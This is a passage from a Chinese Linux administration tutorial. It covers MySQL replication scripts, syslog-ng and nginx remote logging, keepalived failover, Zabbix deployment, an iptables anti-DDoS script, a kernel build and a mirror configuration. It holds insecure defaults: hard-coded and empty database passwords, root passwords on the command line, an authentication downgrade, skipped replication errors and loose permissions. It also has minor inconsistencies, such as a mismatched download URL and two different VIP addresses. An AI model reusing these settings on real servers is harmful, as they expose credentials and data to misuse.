mysql -u root -p$MYSQL_ROOT_PASSWORD -e "GRANT REPLICATION SLAVE ON *.* TO 'replica'@'%';"
mysql -u root -p$MYSQL_ROOT_PASSWORD -e "FLUSH PRIVILEGES;"

# 获取二进制日志文件位置
MASTER_STATUS=$(mysql -u root -p$MYSQL_ROOT_PASSWORD -e "SHOW MASTER STATUS;" | awk 'NR==2 {print $1, $2}')
echo "Master Log File and Position: $MASTER_STATUS"
```

setup_slave.sh脚本代码如下：

```bash
#!/bin/bash

# 检查传入参数
if [ "$#" -ne 3 ]; then
    echo "Usage: ./setup_slave.sh [root password] [master log file] [master log position]"
    exit 1
fi

MYSQL_ROOT_PASSWORD=$1
MASTER_LOG_FILE=$2
MASTER_LOG_POS=$3

# 重启 MySQL 服务（确保配置已经生效）
echo "Restarting MySQL to apply the configuration..."
sudo systemctl restart mysqld

# 配置从库连接主库
MASTER_HOST="192.168.255.132"
MASTER_USER="replica"
MASTER_PASSWORD="password"

mysql -u root -p$MYSQL_ROOT_PASSWORD -e "CHANGE MASTER TO
  MASTER_HOST='$MASTER_HOST',
  MASTER_USER='$MASTER_USER',
  MASTER_PASSWORD='$MASTER_PASSWORD',
  MASTER_LOG_FILE='$MASTER_LOG_FILE',
  MASTER_LOG_POS=$MASTER_LOG_POS;"

# 启动从库同步
echo "Starting slave replication..."
mysql -u root -p$MYSQL_ROOT_PASSWORD -e "START SLAVE;"

# 检查从库状态
mysql -u root -p$MYSQL_ROOT_PASSWORD -e "SHOW SLAVE STATUS\G"
```

**（3）执行脚本：**

**对于主库操作：**

- **用法：** `./setup_master.sh [root账户密码]` 

- **赋权：** `chmod +x setup_master.sh ` 

- **执行：** `./setup_master.sh root123456` 

**对于从库操作：**

- **用法： `./setup_slave.sh [root账户密码] [主库日志文件名] [主库日志位置]` 

- **赋权：** `chmod +x setup_slave.sh` 

- **执行：** `./setup_slave.sh rootuser mybinlog.000015 854` 

脚本执行结果，如图13所示。

从库状态图，如图14所示。

|  |
| :----------------------------------------------------------: |
|               图13  主库与从库的Shell一键部署                |

 

|  |
| :----------------------------------------------------------: |
|                       图14  从库状态图                       |

**（4）测试同步：主库导入zabser.sql，从库同步。**

**1.在主库中创建zabser.sql数据库。**

create database zabser;

**2.获取zabser.sql文件，并导入至主库中。**

mysql -u root -p zabser < /root/zabser.sql

**3.在从库中查看全部数据库，发现已经同步完成，验证了同步，如图15所示。**

查看从库中的全部数据库，发现了zabser数据库。

show databases;

选择zabser数据库，查看该数据库中的所有表。

use zabser;

show tables;

|  |
| :----------------------------------------------------------: |
|        图15  测试主库与从库的同步，zabser.sql同步测试        |

 **（5）一些错误合集**

- **认证插件 `caching_sha2_password` 导致的连接失败**
	**Error connecting to source 'replica@192.168.255.132:3306'. This was attempt 1/86400, with a delay of 60 seconds between attempts. Message: Authentication plugin 'caching_sha2_password' reported error: Authentication requires secure connection.**

	**解决方法：修改 `replica` 用户的认证插件为 `mysql_native_password`**

	```sql
	ALTER USER 'replica'@'%' IDENTIFIED WITH mysql_native_password BY 'password';
	FLUSH PRIVILEGES;
	```

	**检查修改是否生效：**

	```sql
	SELECT user, host, plugin FROM mysql.user WHERE user = 'replica';
	```

- **错误 3021**：`This operation cannot be performed with a running replica io thread; run STOP REPLICA IO_THREAD FOR CHANNEL '' first.`

	**解决方法：**

	在从库主机上，停止复制进程的 IO 线程：

	```sql
	STOP SLAVE IO_THREAD;
	```

	重新启动复制：

	```sql
	START SLAVE;
	```

- **错误 1045**：`Access denied for user 'replica'@'192.168.255.133' (using password: YES)`，表示 `replica` 用户在从库连接主库时，认证失败。

	**解决方法：**

	确保 `replica` 用户的 `host` 列包含 `%` 或是 `192.168.255.133`（即允许来自该 IP 的连接）。

	```sql
	GRANT REPLICATION SLAVE ON *.* TO 'replica'@'%' IDENTIFIED BY 'password';
	FLUSH PRIVILEGES;
	```

	检查权限：

	```sql
	SELECT user, host FROM mysql.user WHERE user = 'replica';
	```

- **某些奇怪/未知错误：**
	**Last_SQL_Error: Coordinator stopped because there were error(s) in the worker(s). The most recent failure being: Worker 1 failed executing transaction 'ANONYMOUS' at source log mybinlog.000015, end_log_pos 1139.**

	**解决方法：跳过错误并继续同步**

	在从库上执行：

	```sql
	SET GLOBAL sql_slave_skip_counter = 1;
	START SLAVE;
	```

	然后再次检查从库的状态：

	```sql
	SHOW SLAVE STATUS\G
	```

- **撤销操作：**

	主库： 

	```msql
	DROP USER 'replica'@'%';
	FLUSH PRIVILEGES;
	```

	从库：

	```bash
	#!/bin/bash
	
	# 检查传入参数
	if [ "$#" -ne 1 ]; then
	    echo "Usage: ./reset_slave.sh [root password]"
	    exit 1
	fi
	
	MYSQL_ROOT_PASSWORD=$1
	
	# 停止从库同步
	echo "Stopping slave replication..."
	mysql -u root -p$MYSQL_ROOT_PASSWORD -e "STOP SLAVE;"
	
	# 重置从库的复制配置
	echo "Resetting slave configuration..."
	mysql -u root -p$MYSQL_ROOT_PASSWORD -e "RESET SLAVE ALL;"
	
	# 删除复制用户
	echo "Dropping replication user..."
	mysql -u root -p$MYSQL_ROOT_PASSWORD -e "DROP USER 'replica'@'%';"
	
	# 重启 MySQL 服务
	echo "Restarting MySQL service..."
	sudo systemctl restart mysqld
	
	echo "Slave setup has been reverted successfully."
	```

	

## 10.部署syslog-ng服务，客户端的nginx日志指向服务端

> 第一台Linux系统部署syslog-ng服务器，第二台部署客户端，将nginx日志指向服务端；

### 10.1 syslog-ng和nginx服务搭建

> 服务端安装syslog-ng服务；
>
> 客户端安装syslog-ng服务和nginx服务；

#### 正常安装，最简单安装

**安装syslog-ng服务： `dnf install syslog-ng` **

**安装nginx服务：参考本文中的1.1内容**

#### 各种稀奇古怪问题导致，syslog-ng源码部署安装，编写shell脚本

>原因：笔者当时使用的是“kylin-server-V10系统”，里面要不是缺少依赖包，要不某些包不兼容。各种奇怪问题，dnf包管理一键安装syslog-ng是莫得用的。然后用源码部署也是各种曲折。
>
>tips：最佳解决方法，直接换系统，我直接换的Rocky Linux来部署，一步到位，什么鸟问题都没有。

**安装syslog-ng服务，编写一键部署脚本，syslog-ng_install.sh：**

安装服务依赖、下载解压syslog-ng安装包，syslog-ng的初始化配置，将syslog-ng服务添加到开机自启。

脚本代码如下：

```bash
#!/bin/bash

# 安装必要的依赖
echo "Installing required packages..."
wget -v https://mirror.sjtu.edu.cn/fedora/epel/epel-release-latest-8.noarch.rpm -P /root && yum -y localinstall /root/epel-release-latest-8.noarch.rpm
yum clean all && yum makecache fast
sleep 5
yum -y install lrzsz net-tools wget lsof make gcc libtool libssl-devel libpcre3-devel libcap-devel glib2-devel json-c-devel pkg-config libnet-devel net-snmp-devel mongo-c-driver-devel libcurl-devel hiredis-devel librabbitmq-devel protobuf-devel systemd-devel python3 python3-devel java-1.8.0-openjdk-devel python3-venv

# 检查是否安装依赖成功
if [ "$?" != "0" ]; then
    echo "Failed to install dependencies."
    exit 1
fi

# 下载 syslog-ng 源码包
echo "Downloading syslog-ng source..."
wget -v https://github.com/syslog-ng/syslog-ng/releases/download/3.31.1/syslog-ng-4.8.1.tar.gz -P /root
#wget -v http://192.168.255.1:7979/syslog-ng-4.8.1.tar.gz -P /root
test ! -d /data && mkdir -pv /data
tar -zxvf /root/syslog-ng-4.8.1.tar.gz -C /data
cd /data/syslog-ng-4.8.1

# 检查解压是否成功
if [ "$?" != "0" ]; then
    echo "Failed to extract syslog-ng source."
    exit 1
fi

# 配置编译选项
echo "Configuring syslog-ng..."
./configure --prefix=/usr/local \
    --enable-ssl \
    --enable-pcre \
    --enable-uuid \
    --enable-linux-caps \
    --with-threads

# 检查配置是否成功
if [ "$?" != "0" ]; then
    echo "Failed to configure syslog-ng."
    exit 1
fi

# 编译并安装 syslog-ng
echo "Compiling and installing syslog-ng..."
make && make install

# 检查安装是否成功
if [ "$?" != "0" ]; then
    echo "Failed to compile or install syslog-ng."
    exit 1
fi

# 检查 syslog-ng 是否已正确安装
if [ ! -f /usr/local/sbin/syslog-ng ]; then
    echo "syslog-ng installation failed, executable not found."
    exit 1
fi

# 配置文件路径
echo "Configuring syslog-ng configuration file..."
test ! -d /usr/local/etc/syslog-ng && mkdir -pv /usr/local/etc/syslog-ng
cp /data/syslog-ng-4.8.1/syslog-ng.conf /usr/local/etc/syslog-ng/

# 创建 syslog-ng systemd 服务
echo "Creating systemd service..."
cat << EOF > /etc/systemd/system/syslog-ng.service
[Unit]
Description=syslog-ng
After=network.target

[Service]
ExecStart=/usr/local/sbin/syslog-ng
ExecReload=/bin/kill -HUP \$MAINPID
PIDFile=/var/run/syslog-ng.pid
Restart=always

[Install]
WantedBy=multi-user.target
EOF

# 重新加载 systemd 服务
echo "Reloading systemd configuration..."
systemctl daemon-reload

# 启动 syslog-ng 服务
echo "Starting syslog-ng service..."
systemctl start syslog-ng
systemctl enable syslog-ng

# 安装完成提示
echo "syslog-ng has been successfully installed and started."
```


### 10.2 将nginx日志指向服务端

**（1）服务端，编辑 /etc/syslog-ng/syslog-ng.conf 配置文件：**

添加如下内容：

**在配置文件中，添加一个新的接收 UDP 或 TCP 日志的 source：**

>**接收来自客户端的 UDP 日志**
>**如果要通过 TCP 协议接收日志，将 udp 改为 tcp，并指定端口**

```conf
source s_net {
    udp(ip(0.0.0.0) port(514));
};
```

**配置日志存储目标：** 添加目标配置，设置日志文件存储位置：

```conf
destination d_logs {
    file("/var/log/nginx-logs.log");
};
```

**配置日志规则：** 将接收到的日志通过管道传递到目标：

```conf
log { source(s_net); destination(d_logs); };
```

**然后，重启syslog-ng服务：**

```bash
systemctl restart syslog-ng
```

**（2）客户端，编辑 /etc/nginx/nginx.conf 配置文件：**

**添加如下内容：**

```conf
http {
    log_format syslog_format '$remote_addr - $remote_user [$time_local] "$request" '
                              '$status $body_bytes_sent "$http_referer" '
                              '"$http_user_agent" "$http_x_forwarded_for"';

    access_log syslog:server=192.168.255.132:514,facility=local7,tag=nginx,severity=info syslog_format;

    # 其他配置...
}
```

**然后，重启nginx服务：**

```bash
systemctl restart nginx
```

|  |
| :----------------------------------------------------------: |
|            图16  修改配置文件（syslog-ng与nginx）            |

**（2）验证结果**

其他主机测试访问： `curl http://192.168.255.133` 

服务端查看对应日志： `tail -f /var/log/nginx-logs.log` 

通过其他主机测试访问客户端的nginx服务，在服务端对应的日志文件中查看，如图17所示。

|  |
| :----------------------------------------------------------: |
|                  图17将nginx日志指向服务端                   |


## 11.部署keepalived服务，两台Nginx做主备服务。

> 部署keepalived，两台Nginx做主备服务，使用ICMP协议测试验证。
>
> VIP地址，依据个人Linux系统网络环境自定义。

 **（1）在两台主机上部署keepalived与nginx。**

>主用机IP：192.168.255.136
>
>副用机IP：192.168.255.137
>
>网络接口：ens160
>
>VIP配为192.168.255.222

```bash
dnf install -y keepalived nginx
```

启动keepalived与nginx服务：

```bash
systemctl enable keepalived && systemctl enable nginx
```

**（2）配置文件keepalived.conf修改，如图18所示：**

> VIP地址配为192.168.255.130。

**编辑配置文件：`vi /etc/keepalived/keepalived.conf`**

**主用机的keepalived.conf配置文件修改：**

```conf
vrrp_instance VI_1 {
    state MASTER
    interface ens160
    virtual_router_id 51
    priority 101               # 主服务器优先级较高
    advert_int 1                # 通告间隔时间
    authentication {
        auth_type PASS
        auth_pass 1234
    }
    virtual_ipaddress {
        192.168.255.222         # VIP 地址
    }
    track_interface {
        ens160                  # 监控的网络接口
    }
}
```

**副用机的keepalived.conf配置文件修改：**

同上，将其中vrrp_instance VI_1{}部分中的，state状态值改为“BACKUP”，priority优先级值改为“100”，即可。

配置文件修改保存后，重启两台主机的keepalived服务。

```conf
vrrp_instance VI_1 {
    state BACKUP
    interface ens160
    virtual_router_id 51
    priority 100               # 备服务器优先级较低
    advert_int 1
    authentication {
        auth_type PASS
        auth_pass 1234
    }
    virtual_ipaddress {
        192.168.255.222         # VIP 地址
    }
    track_interface {
        ens160
    }
}
```

```bash
systemctl restart keepalived
```

|  |
| :----------------------------------------------------------: |
|              图18  配置文件keepalived.conf编辑               |

**（4）主备用机与VIP之间的映射关系，如图19所示。**

当主用机服务正常时，VIP地址将在主用机接口上；

当主用机服务异常时，VIP地址将由副用机接管。

|  |
| :----------------------------------------------------------: |
|               图19主备用机与VIP之间的映射关系                |

**（5）使用ICMP协议测试验证**

向VIP地址（192.168.255.222）发送ping连通测试，发现可以正常连通，如图20所示。

`ping 192.168.255.222`

|  |
| :----------------------------------------------------------: |
|                  图20  使用ICMP协议测试验证                  |

 

## 12. 部署zabbix server服务
部署zabbix server服务


安装Zabbix Server服务
（1）添加Zabbix官方存储库以安装Zabbix相关软件包。
sudo rpm -ivh https://repo.zabbix.com/zabbix/5.0/rhel/8/x86_64/zabbix-release-5.0-1.el8.noarch.rpm

（2）安装Zabbix Server、Web界面和数据库相关组件。(Zabbix Server需要数据库支持。这里以MySQL为例)
sudo yum install -y zabbix-server-mysql zabbix-web-mysql zabbix-agent

（3）安装MySQL并启动服务：
sudo dnf install -y mysql-server
sudo systemctl enable --now mysqld


（4）在MySQL中配置Zabbix相关项
登录MySQL服务：
mysql -u root -p

创建Zabbix数据库、创建Zabbix数据库用户并授予权限：
CREATE DATABASE zabbix character set utf8 collate utf8_bin;
CREATE USER 'zabbix'@'localhost' IDENTIFIED BY '';
GRANT ALL PRIVILEGES ON zabbix.* TO 'zabbix'@'localhost';
FLUSH PRIVILEGES;

导入Zabbix数据库结构：
cd /usr/share/doc/zabbix-server-mysql/
zcat create.sql.gz | mysql -u zabbix -p zabbix

（5）配置Zabbix Server
编辑Zabbix Server配置文件 /etc/zabbix/zabbix_server.conf，配置数据库连接：
DBHost=localhost
DBName=zabbix
DBUser=zabbix
DBPassword= # zabbix_password，我设置的为空密码

（6）启动并设置Zabbix Server服务：
sudo systemctl start zabbix-server && sudo systemctl enable zabbix-server

（7）配置PHP： 
编辑 /etc/php-fpm.d/zabbix.conf，找到并修改以下配置：
php_value[date.timezone] = Asia/Shanghai
编辑 /etc/php.ini，找到并修改以下配置：
post_max_size = 16M
upload_max_filesize = 16M
max_execution_time = 300
max_input_time = 300
date.timezone = Asia/Shanghai

（8）启动并设置PHP-FPM服务：
sudo systemctl start php-fpm && sudo systemctl enable php-fpm

（9）配置Apache服务：
安装Apache服务：
sudo dnf install -y httpd
把Zabbix Web界面指向正确的路径：
sudo ln -s /usr/share/zabbix /var/www/html/zabbix
启动Apache服务：
sudo systemctl start httpd && sudo systemctl enable httpd

（10）添加权限：
sudo chown -R apache:apache /etc/zabbix
sudo chmod -R 755 /etc/zabbix
sudo chown -R apache:apache /var/www/html/zabbix
sudo chmod -R 755 /var/www/html/zabbix

（11）访问Web界面：
在浏览器中输入 http://<your-server-ip>/zabbix，按提示完成Zabbix前端安装。
Zabbix 完成安装后，默认的登录用户名和密码如下：
默认用户名：Admin
默认密码：zabbix

## 13. 监控zabbix server本机数据
监控zabbix server本机数据


（1）安装Zabbix Agent
安装Zabbix Agent用于监控Zabbix Server本机的数据：
sudo yum install -y zabbix-agent

（2）配置Zabbix Agent
编辑Zabbix Agent配置文件 /etc/zabbix/zabbix_agentd.conf，设置Server为Zabbix Server的IP地址或主机名（即本机）：
Server=127.0.0.1
ServerActive=127.0.0.1
Hostname=Zabbix-Server

（3）启动Zabbix Agent
sudo systemctl start zabbix-agent
sudo systemctl enable zabbix-agent

（4）在Zabbix前端添加本机监控项
登录Zabbix Web界面，进入 Configuration -> Hosts。
点击 Create Host，填写主机名（如 Zabbix-Server）并设置接口类型为 Agent，然后保存。
在 Templates 选项卡中添加模板，选择 Template OS Linux。
保存后，Zabbix Server将开始监控本机的各种性能数据。
（5）查看结果
在Zabbix Web界面中，
点击主机名（例如 Zabbix-Server）进入主机的监控详情页。
在这里，您可以查看该主机的 最新数据（Latest Data）。
选择不同的监控项（如 CPU 使用率、内存使用情况、磁盘空间等）来查看实时的系统性能数据。


## 14.防DDOS攻击 – 编写shell程序

> 编写Shell程序，保障Linux主机系统 DDOS攻击；
>
> 本节参考：[Rocky8.10 升级Kernel 6.10.7_rocky linux 升级内核-CSDN博客](https://blog.csdn.net/qq_29974229/article/details/141860968)

**（1） 编写脚本anti_ddos.sh：**

防止ping flood攻击、限制SYN洪水攻击、DNS放大攻击、限制每个IP的连接数、记录并限制频繁连接的IP、频繁连接的IP被拒绝。

脚本代码如下：

```bash
#!/bin/bash
if [ "${UID}" != "0" ];then
   echo "Must Be To Root."
   exit 1
fi
iptables -A FORWARD -p icmp --icmp-type echo-request -m limit --limit 1/s --limit-burst 10 -j ACCEPT
iptables -A INPUT -p tcp -m tcp --tcp-flags SYN,RST,ACK SYN -m limit --limit 20/sec --limit-burst 200 -j ACCEPT
iptables -A INPUT -p udp -m limit --limit 10/s --limit-burst 20 -j ACCEPT
iptables -A INPUT -p tcp -m connlimit --connlimit-above 20 --connlimit-mask 32 -j REJECT --reject-with tcp-reset
iptables -A INPUT -p tcp -m recent --set
iptables -A INPUT -p tcp -m recent --update --seconds 60 --hitcount 100 -j REJECT --reject-with tcp-reset
```

**（2） 执行脚本**

bash anti_ddos.sh

**（3）查看结果，如图24所示。**

|  |
| :----------------------------------------------------------: |
|                     图24  防DDOS攻击脚本                     |

 

## 15. 自定义升级kernel版本

> 基于Rocky Linux 8.10 升级kernel 版本自定义；

**（1）安装依赖包**

```bash
yum install -y gcc kernel-devel cmake gcc-c++ ncurses-devel bison flex elfutils-libelf-devel openssl openssl-devel
```

**（2）下载kernel包**

```bash
mkdir kernel
cd kernel
wget https://cdn.kernel.org/pub/linux/kernel/v6.x/linux-6.10.7.tar.xz
tar xf linux-6.10.7.tar.xz 
cd linux-6.10.7/
make menuconfig
```

**（3）修改.config**
.config 里将CONFIG_DEBUG_INFO_BTF和CONFIG_SYSTEM_TRUSTED_KEYS值改为空

```config
CONFIG_DEBUG_INFO_BTF=n
CONFIG_SYSTEM_TRUSTED_KEYS=""
```

然后编译：

```bash
make -j$(nproc)
make modules_install
make install
```

**（4）重启验证 **
重启。
`reboot` 

等待启动完毕,确认版本升级成功
`uname -r`

## 16. Nginx将http转化为https

> Nginx 服务自定义公钥、私钥，将http 转换为 https；

见同目录系列篇“09、nginx、redis、mysql--linux应用安全防护.md”


## 17.封禁多次错误ssh连接的IP – 编写shell程序

> 编写Shell程序，拒绝恶意IP登录；

见同目录系列篇“06.02、SecureLog系统登录日志及相关管理脚本.md”


## 18. 本地镜像源配置 – 编写shell程序

> 编写Shell程序，实现本地镜像源配置。

**（1）编写脚本， `setup_local_mirror.sh` ：**

脚本代码如下：

```bash
#!/bin/bash

# 设置本地镜像源地址
LOCAL_MIRROR="http://mirror.rockylinux.org/rocky"
# 设置YUM仓库配置文件路径
YUM_REPO_PATH="/etc/yum.repos.d/rocky.repo"

# 备份现有的repo文件到 /etc/yum.repos.d/backup/
echo "Backing up existing repo files to /etc/yum.repos.d/backup/"
mkdir -p /etc/yum.repos.d/backup
cp -r /etc/yum.repos.d/* /etc/yum.repos.d/backup/

# 创建新的镜像源配置文件
echo "Creating new mirror source configuration file..."
cat > $YUM_REPO_PATH <<EOL
[rocky]
name=Rocky Linux \$releasever - Base
baseurl=${LOCAL_MIRROR}/\$releasever/BaseOS/\$basearch/os/
enabled=1
gpgcheck=1
gpgkey=${LOCAL_MIRROR}/\$releasever/BaseOS/\$basearch/os/RPM-GPG-KEY-rockyofficial

[rocky-updates]
name=Rocky Linux \$releasever - Updates
baseurl=${LOCAL_MIRROR}/\$releasever/updates/\$basearch/
enabled=1
gpgcheck=1
gpgkey=${LOCAL_MIRROR}/\$releasever/updates/\$basearch/RPM-GPG-KEY-rockyofficial

[rocky-extras]
name=Rocky Linux \$releasever - Extras
baseurl=${LOCAL_MIRROR}/\$releasever/extras/\$basearch/
enabled=1
gpgcheck=1
gpgkey=${LOCAL_MIRROR}/\$releasever/extras/\$basearch/RPM-GPG-KEY-rockyofficial
EOL

# 清理YUM缓存并更新本地元数据
echo "Cleaning YUM cache and updating local metadata..."
yum clean all
yum makecache

# 输出完成信息
echo "Local mirror source configuration completed!"
```

**（2）执行脚本：**

bash setup_local_mirror.sh

**（3）查看结果，如图28所示。**

|  |
| :----------------------------------------------------------: |
|                     图28  本地镜像源配置                     |